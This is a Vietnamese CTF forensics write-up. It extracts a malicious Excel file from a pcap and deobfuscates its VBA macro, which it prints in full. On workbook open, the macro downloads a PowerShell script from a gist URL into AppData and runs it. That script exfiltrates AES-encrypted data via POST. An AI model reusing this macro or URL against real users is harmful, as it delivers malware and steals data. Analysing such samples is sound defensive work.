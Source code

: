 ![Screenshot (4452)](https://github.com/NVex0/uWU/assets/113530029/fb8ee111-d71e-48de-9d56-2cae5b023c32)

#### Solve:

Vẫn là Hoà và tài liệu độc hại của anh ấy. Đề cho ta 1 file pcap, dựa theo mô tả của đề thì có vẻ đây là capture của traffic khi thầy giáo nhận file độc từ Hoà. Mình sẽ extract tài liệu đó trên HTTP object list:

![Screenshot (4453)](https://github.com/NVex0/uWU/assets/113530029/20002710-b291-49fc-bccd-5a397f6e3ba2)

 `olevba` đầu tiên thôi :v: :

![image](https://github.com/NVex0/uWU/assets/113530029/34ed6a24-738b-486d-9a8d-bbb22ccb5964)

Ta thấy đoạn malicious code này bị obfuscate khá đau mắt, tuy nhiên để ý thì có vẻ như nó chỉ bị obfu bằng xài mấy tên biến non-ascii kì cục :v 

Sử dụng cyberchef, mình sửa chay từng biến 1 :D và nhìn ra mặt code:

```
Function func1(var17)
var12 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var16 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(var17)
var4 = InStr(var12, Mid(var17, y, 1))
If var4 > 0 Then
var11 = Mid(var16, var4, 1)
var13 = var13 + var11
Else
var13 = var13 + Mid(var17, y, 1)
End If
Next
func1 = var13
For var26 = 1 To Len(var23)
var23 = var26
Next
For var30 = 2 To Len(var24)
var24 = 2
Next
For var33 = 3 To Len(var28)
var28 = var33
Next
For var18 = 4 To Len(var22)
var22 = 2
Next
End Function
Sub Workbook_Open()
Dim var31 As Object
Dim var21 As String
Dim var29 As String
Dim var19 As String
Dim var14 As Integer
var14 = Chr(50) + Chr(48) + Chr(48)
Set var31 = CreateObject("WScript.Shell")
var21 = var31.SpecialFolders("AppData")
Dim var9
Dim var6
Dim var3
Dim var26 As Long
Dim var30 As String
Dim var25 As Long
Dim var28 As String
Dim var33 As Long
Dim var18 As String
Dim var32 As String
Dim var24 As Long
Dim var10
Dim var15
Dim a0 As Integer
Dim var2
Dim var7
a0 = 1
Range("A1").Value = func1("4BEiàiuP3x6¿QEi³")
Dim var8 As String
var1 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var8 = func1(var1)
MsgBox var8, vbInformation, func1("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim var20 As Date
Dim var27 As Date
var20 = Date
var27 = DateSerial(2023, 6, 6)
If var20 < var27 Then
Set var2 = CreateObject("microsoft.xmlhttp")
Set var15 = CreateObject("Shell.Application")
var10 = var21 + func1("\k¿i6Ü_~Bb@")
var2.Open "get", func1("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
var2.send
var6 = var2.responseBody
If var2.Status = 200 Then
Set var9 = CreateObject("adodb.stream")
var9.Open
var9.Type = a0
var9.Write var6
var9.SaveToFile var10, a0 + a0
var9.Close
End If
var15.Open (var10)
Else
MsgBox func1("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

Đầu tiên với hàm `func1`, ta thấy nó nhận vào 1 chuỗi, trả về kí tự index thứ `var4` trên `var16`. `var4` là kết quả từ việc match xem kí tự lần đầu của chuỗi xuất hiện trong `var12` là ở đâu. Lặp liên tục trên len của chuỗi đầu vào, hàm trả về cho ta 1 string.

Func1 được gọi rất nhiều lần, mình viết code sau và decode từng đoạn gọi tới func1:

```
var2 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var3 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
v1 = input()

out = ""
for i in range(len(v1)):
    if v1[i] == ':':
        out += ':'
    elif v1[i] =='/':
        out += '/'
    for j in range(len(var2)):
        if var2[j] == v1[i]:
            out += var3[j]
print(out)
```
Lần lượt với chuỗi đầu vào func, ta được các output như sau:

`Opening document`

`We deeply regret to inform you`

`buncha.ps1`

`https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1`

`Dont try to run me bro`

Chung quy lại là code này thực thi việc tải xuống file ps1 kia và lưu vào Appdata. Vào đường dẫn mà file được tải xuống:

![image](https://github.com/NVex0/uWU/assets/113530029/d4462edb-e086-40ed-9fde-5a9b91215a16)

Vẫn là base64 và deflate compress :v, ta decode và được 1 obfuscated code khác. Mình sử dụng `PowerDecode` để deobfuscate. 

Đoạn code sau khi deob nhìn khá rõ ràng. Cụ thể code này sử dụng AES-CBC Zero Padding với key có sẵn trong code. IV lấy 16 bytes nối với data sau khi encrypt. 
Sau đó là tạo stream để POST data lên kết nối được thiết lập trước. 

Vậy nên với file pcap của đề, mình sẽ tiến hành decrypt data mà Hoà lấy được từ máy thầy. Đầu tiên mình sort theo HTTP POST:

![image](https://github.com/NVex0/uWU/assets/113530029/027fd81a-9998-42ca-8b0e-884402d47b91)

Sau đó decrypt data bên client gửi bằng cách cắt đi 16 bytes đầu làm IV, key trong code và phần còn lại là encrypted data. Mình thử decrypt từng cái 1 và cuối cùng có được thứ mình cần ở stream POST lượng data lớn nhất. 

Phần data ta phải xử lý qua bằng URL decode trước. Sau đó mình decrypt với Cyberchef:

![image](https://github.com/NVex0/uWU/assets/113530029/d604601b-c12e-4fa8-b734-0e33181b8bc2)

Để ý thì kia là header của PNG, decode và save về, ta được 1 bức QR:

![image](https://github.com/NVex0/uWU/assets/113530029/0449648b-a836-47b3-93db-c23d9185768a)

Scan và mình có được Flag:

Flag: `CHH{D0n't_w0rRy_n0_st@r_wh3rE}`
